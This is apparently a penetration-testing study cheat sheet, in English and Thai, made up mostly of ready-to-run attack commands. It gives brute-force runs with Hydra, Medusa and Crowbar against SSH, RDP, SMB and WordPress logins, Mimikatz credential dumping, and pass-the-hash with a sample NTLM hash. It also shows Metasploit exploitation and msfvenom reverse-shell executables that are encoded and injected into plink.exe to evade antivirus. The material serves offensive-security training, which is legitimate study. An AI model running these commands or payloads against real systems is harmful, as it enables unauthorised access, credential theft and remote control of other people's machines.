  - Message Digest A message digest is a cryptographic hash function containing a string of digits created by a one-way hashing formula. Message digests are designed to protect the integrity of a piece of data or media to detect changes and alterations to any part of a message
    - MD5 is a widely used hash function producing a 128-bit hash value
    - MD6  is a cryptographic hash function producing 1-bit to 512 bits hash value
    - SHA-1 (Secure Hash Algorithm 1) is a cryptographic hash function which takes an input and produces a 160-bit (20-byte) hash value
    - SHA-2 (Secure Hash Algorithm 2) is a set of cryptographic hash functions consists of functions in 224, 256, 384 or 512 bits: SHA-224, SHA-256, SHA-384, SHA-512
    - HMAC (Hash-based Message Authentication Code) is a specific type of message authentication code (MAC) involving a hash function with a secret cryptographic key
    - Bcrypt is a password hashing function designed by Niels Provos and David Mazières, based on the Blowfish cipher to protect against rainbow table attacks
 
 - Password Attack

```bash
# wordlist rockyou
sudo gunzip /usr/share/wordlists/rockyou.txt.gz

# medusa attack httpaccess-protected URL (-m DIR:/admin)
# Medusa, initiated against an htaccess protected web directory
medusa -h $ip -u admin -P password-file.txt -M http -m DIR:/admin -T 10
medusa -h 192.168.10.10 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin

# Crowbar is a bruteforce tool which support OpenVPN, RDP, SSH and VNC
sudo apt install crowbar 
crowbar --help
# To invoke crowbar, we will specify the protocol (-b), the target server (-s), a username (-u), a wordlist (-C), and the number of threads (-n) 
crowbar -b rdp -s 192.168.10.10/32 -u admin -C ~/password-file.txt -n 2

# Hydra brute force against SNMP
hydra -P password-file.txt -v $ip snmp

# Hydra FTP known user and rockyou password list
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp

# Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh

# Hydra SSH using a known password and a username list
hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh

# Hydra SSH Against Known username on port 22
hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt

# Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V

# Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V

# Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin

# Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip

# Hydra brute force SMB user with rockyou:
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb

# Hydra brute force a Wordpress admin login
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'


# hashid indentification hash funtion
hashid 5f4dcc3b5aa765d61d8327deb882cf99
hashid b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86

#Office password cracking
python ./office2john.py ./filename.docx
```

- Windows Minikatz 
  - Minikatz x86 dowload [link](https://github.com/ParrotSec/mimikatz)
```bash
# run Minikatz as admin
privilege::debug
token::elevate
lsadump::sam
# หรือ 
Mimikatz.exe “privilege::debug” “sekurlsa::pth /user:[username] /ntlm:[ntlm hash] /domain:[domainname]” “exit”


# ตรวจสอบข้อมูล Users และ Password 
# User: unicorn
# Hash NTLM : e19ccf75ee54e86b06a5907af13cef42
# Pass the hash 
export SMBHASH=aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
pth-winexe -U unicorn% //$ip cmd
pth-winexe -U unicorn //192.168.56.101 cmd

pth-winexe -U unicorn%aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42 //192.168.56.101 cmd

# IF pth-winexe show ERROR: CreateService failed run command on Windows Administrator 
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\system" /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f

# กรณีใช้ MSF console
use exploit/windows/smb/psexec
set SMBPass aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42
set lhost 192.168.10.10
set rhosts 192.168.10.20
run

# Meterpreter Kiwi
meterpreter> load kiwi
meterpreter> help kiwi
meterpreter> creds_all
```

- การ Crack hash 
```bash
cat hash.txt
# WDAGUtilityAccount:0c509cca8bcd12a26acf0d1e508cb028
# Offsec:2892d26cdf84d7a70e2eb3b9f05c425e
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=NT
```

---

## Exploitation

- Metasploit Framework เป็นโปรแกรม open source ที่ใช้ในการสำรวจและโจมตีเครื่องคอมพิวเตอร์ โดยมีคุณสมบัติต่างๆ รวมถึงการเข้ารหัสและการโจมตีแบบอัตโนมัติ ซึ่งสามารถใช้ในการตรวจสอบความแข็งแกร่งของระบบและการแก้ปัญหาเรื่องความปลอดภัยได้ เป็นโปรแกรมที่สามารถทำงานในรูปแบบ command-line และ graphical user interface (GUI) ซึ่งสามารถใช้ในการตรวจสอบความแข็งแกร่งของระบบเครือข่ายและเครื่องคอมพิวเตอร์ โดยใช้ข้อมูลจากเครื่องตัวเองและฐานข้อมูลของระบบอื่น ๆ อีกด้วย อีกทั้ง Metasploit Framework มีโมดูลหลายตัวที่ใช้ในการโจมตีแบบอัตโนมัติ โดยจะใช้ข้อมูลจากการสำรวจเพื่อเป็นพื้นฐานในการโจมตี ซึ่งสามารถใช้งานได้หลากหลายรูปแบบ เช่น การโจมตีตามโปรโตคอล การโจมตีตามช่องโหว่ และการโจมตีโดยใช้ payload ต่าง ๆ
- สำหรับกาติดตั้ง Metasploit Framework นั้นจำเป็นจะต้องเปิดใช้งาน Services ของ Postgresql และมีวิธีการติดตั้งดังต่อไปนี้ 

```bash
sudo systemctl start postgresql 
sudo systemctl enable postgresql 

sudo msfdb init 
sudo apt update 
sudo apt install metasploit-framework
sudo msfconsole 
# หรือสามารถใช้ Options -q เพื่อยกเลิกการแสดง Banner ได้ ดังนี้
sudo msfconsole -q 
```
สำหรับ Promp "msf6>" นั้นเป็น Console อยู่ภายใต้ Metasploit framework โดยมีคำสั่งที่สามารถนำไปใช้ได้ดังนี้

```bash
# all command is under promp "msf6 >" 

# MSF สามารถตรวจสอบข้อมูลต่าง ๆ ได้ด้วยคำสั่ง "Show"
show -h 
# บน MSF นั้นจะใช้ Command "Use" สำหรับเรียกใช้งาน Module ที่สนใจ
use auxiliary/sanner/portscan/tcp
back 

# เราสามารถใช้ Command "back" หรือ "Previous" สำหรับย้อนกลับไป Modules ก่อนหน้า
use auxiliary/scanner/portscan/tcp
useauxiliary/scanner/portscan/syn
previous

# เราสามารถใช้คำสั่ง "show options" สำหรับตรวจสอบพารามิเตอร์ ภายในโมดูลที่เราจะใช้ได้
show options 

# เมื่อเราตรวจสอบพารามิเตอร์ต่าง ๆ แล้ว เราสามารถใช้คำสั่ง "set" หรือ "unset" สำหรับการแก้ไขข้อมูลพารามิเตอร์ภายใต้โมดูลที่เรากำลังทำงานหรือสามารถใช้ "setg" หรือ "unsetg" สำหรับตั้งค่าตัวแปรในรูปแบบ Global Variable 
set RHOSTS 192.168.10.10
run


# Database Mapping 
# หากมีการเปิดใช้งาน Postgresql Services แล้ว Metasploit จะสามารถตรวจสอบข้อมูลเพิ่มเติมด้วยคำสั่ง services ได้ดังต่อไปนี้
services
services -h 

# เราสามารถใช้ "db_nmap" สำหรับเก็บข้อมูลการ Scan จาก Nmap บน Metasploits ได้
db_nmap 
db_nmap 192.168.10.10 -A -Pn 

# เราสามารถตรวจสอบข้อมูล Host ที่ตรวจพบได้ด้วยคำสั่ง "hosts"
hosts
services -p 445

# เราสามารถแยกข้อมูลออกจากกันในแต่ละคนได้โดยการใช้งาน "workspace" ได้ดังนี้
workspace
workspace test
```
- โมดูลบน Metasploit มีดังนี้
  - Auxiliary module ใน Metasploit Framework เป็นโมดูลที่ถูกสร้างขึ้นเพื่อให้ผู้ใช้งานเข้าถึงฟังก์ชันต่างๆ เช่น การสแกนหาช่องโหว่, การตรวจสอบความเป็นไปได้ของโปรโตคอล, การจับคู่ข้อมูลระหว่างเครื่อง ฯลฯ ซึ่งจะช่วยให้ผู้ใช้งานได้ทำการวิเคราะห์และประเมินความเสี่ยงได้อย่างละเอียดและมีประสิทธิภาพ

```bash
show auxiliary
search -h 
# เราสามารถใช้ "search" สำหรับกรองข้อมูลที่เราสนใจ เช่น app, type, platform ฯลฯ
search type:auxiliary name:smb 

# เราสามารถใช้คำสั่ง "info" สำหรับตรวจสอบรายละเอียดของโมดูลที่จะใช้งานได้
use scanner/smb/smb2
info
# เราสามารถนำข้อมูลจากฐานข้อมูลที่มีการ Scan ไว้ก่อนหน้า มาใส่ในพารามิเตอร์ของโมดูลได้ 
services -p 445 --rhosts 
run 

# การค้นหา RDP 
ีuse scanner/rdp/rdp_scanner
show options 
set rhosts 192.168.10.10
run
```

- Exploit Modules เป็นโมดูลที่ใช้ในการเข้าถึงช่องโหว่ต่างๆ ในเครื่องเป้าหมาย ซึ่งประกอบด้วยโค้ดและวิธีการเข้าถึงช่องโหว่ต่างๆ ซึ่งจะส่ง payload ไปยังเครื่องเป้าหมาย โดยส่วนใหญ่ exploit module จะถูกใช้ร่วมกับ payload module เพื่อส่ง payload ไปยังเป้าหมาย เพื่อดำเนินการควบคุมต่อไป
```bash
# ค้นหาช่องโหว่ที่จะโจมตี 
search synbreeze
# ตรวจสอบข้อมูลของโมดูลที่จะใช้โจมตี 
info exploit/windows/http/stnbreeze_bof
# ตรวจสอบ Payloads ที่จะใช้สำหรับโจมตี
show payloads 
# ตั้งค่า Payload ที่จะใช้สำหรับโจมตี
set payload windows/shell_reverse_tcp
# ตรวจสอบข้อมูลพารามิเตอร์ที่จำเป็น
show options 
# ตั้งค่าพารามิเตอร์ Local hosts หรือเครื่องของผู้โจมตี 
set lhost 192.168.1.10
# ตั้งค่าพารามิเตอร์ Remote hosts หรือเครื่องเป้าหมาย
set rhost 192.168.1.20
# ทำการตรวจสอบก่อนโจมตี
check 
# เริ่มต้นการโจมตี
exploit
```
 - Metasploit Payloads 
```bash
search meterpreter type:payload
set payload windows/meterpreter/reverse_http
set LHOST 192.168.10.10
show options 
exploit

# Meterpreter 
# shell "meterpreter > " 
help
sysinfo
getuid

# Upload netcat 
upload /usr/share/windows-resources/binaries/nc.exe c:\\Users\\Offsec

# Download file 
download c:\\windows\\system32\\calc.exe /tmp/calc.exe

# Run Shell via Meterpreter
shell
exit
```

- การสร้าง Excutable Payloads ด้วย msfvenom

```bash
# Shell 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10 LPORT=443 -f exe -o shell_reverse.exe
file shell_reverse.exe

# The shellcode embedded in the PE file can be encoded using any of the many MSF encoders. Historically, this helped evade antivirus, though this is no longer true with modern AV engines. The encoding is configured with -e to specify the encoder type and -i to set the desired number of encoding iterations. We can use multiple encoding iterations to further obfuscate the binary, which could effectively evade rudimentary signature detection. 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

# Another useful feature of Metasploit is the ability to inject a payload into an existing PE file, which may further reduce the chances of AV detection. The injection is done with the -x flag, specifying the file to inject into.
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.10 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embeded.exe 

# อีกทั้งเราสามารถสร้างผ่าน msfconsol ได้ดังต่อไปนี้
# promp "msf6 >"
use payload/windows/shell_reverse_tcp
set LHOST 192.168.10.10
set RHOST 192.168.10.20 
generate -f -exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embeded.exe 
```
- Metasploit Exploit Multi Handler เป็นโมดูลใน Metasploit Framework ที่ใช้ในการรับ payload จาก exploit หรือรับ payload ที่ส่งมาจากตัวเครื่องเป้าหมายเพื่อใช้ในการ post-exploitation ซึ่งจะช่วยให้สามารถติดต่อกลับมายังเครื่องเป้าหมายได้ โดยสามารถรับ payload จากหลายโปรโตคอลได้ เช่น TCP, HTTP, HTTPS และ HTTPS อื่นๆ ซึ่งสามารถปรับแต่งค่าต่างๆ ได้ เช่น ตั้งค่า payload และตั้งค่าการรับส่งข้อมูล ดังนั้น multi/handler จึงเป็นโมดูลที่สำคัญในการใช้งาน Metasploit Framework
```bash 
use multi/handler
set payload windows/meterpreter/reverse_https
run 
```

---
## Post-Exploitation

- Privilege Escalation
    - [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
    - Manual Enumeration command
    - Windows
        ```bash
        whoami
        net user
        systeminfo
        systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
        ```
        - [LOLBAS for Windows](https://lolbas-project.github.io/)
        - Windows: Weak service permissions, Unquoted service paths, outdated binaries, scheduled tasks, custom functionality implemented through binaries, known-binary exploits, stored passwords, pass-the-hash.
    - Linux
      - Capabilities
      - SUIDs/GUIDs
      - cronjobs
      - modifiable binaries running as root
      - out-of-date binaries
      - known-binary exploits
      - history files.
      - [GTFOBins for Linux](https://gtfobins.github.io/)
      - Common Shell usage after reverse shell
  
---
## Port Redirection and Tunneling
SSH Tunneling 




- Local port Forwarding

```bash
ssh -L [local_addr:]local_port:remote_addr:remote_port [user@]sshd_addr

# Example
ssh -L localhost:8080:localhost:80 user@server

# Testing
curl http://localhost:8080

```

---